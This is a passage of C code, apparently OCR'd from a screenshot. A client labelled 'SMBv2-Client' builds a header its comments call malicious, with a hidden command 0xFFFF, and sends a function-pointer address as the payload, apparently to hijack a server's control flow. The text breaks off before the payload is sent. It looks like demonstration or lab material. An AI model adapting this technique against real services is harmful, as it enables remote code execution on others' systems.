 

   printf("[SMBv2-Client] Connected to server.\n");



   // Build the malicious header:

   //   [0..3]: 0xFE 'S' 'M' 'B'

   //   [4..5]: Command = 0xFFFF

   //   [6..7]: PayloadLength = 8 (we’ll copy an 8-byte function pointer on a 64-bit system)

   //            or 4 bytes if 32-bit, etc. (Example uses 8 for 64-bit).

   unsigned char smbHeader[8];

   smbHeader[0] = 0xFE;

   smbHeader[1] = 'S';

   smbHeader[2] = 'M';

   smbHeader[3] = 'B';



   unsigned short command = 0xFFFF;   // hidden operation

   unsigned short payloadLen = sizeof(funcAddr); // assume 8 bytes on 64-bit



   smbHeader[4] = (unsigned char)(command >> 8);

   smbHeader[5] = (unsigned char)(command & 0xFF);

   smbHeader[6] = (unsigned char)(payloadLen >> 8);

   smbHeader[7] = (unsigned char)(payloadLen & 0xFF);



   // Build payload: just the function pointer address

   unsigned char payload[8];

   memset(payload, 0, sizeof(payload)); 

   memcpy(payload, &funcAddr, sizeof(funcAddr));



   // Send header

   if (send(sock, smbHeader, sizeof(smbHeader), 0) < 0) {

       perror("send header");

       close(sock);

       return 1;

   }



   // Send payload
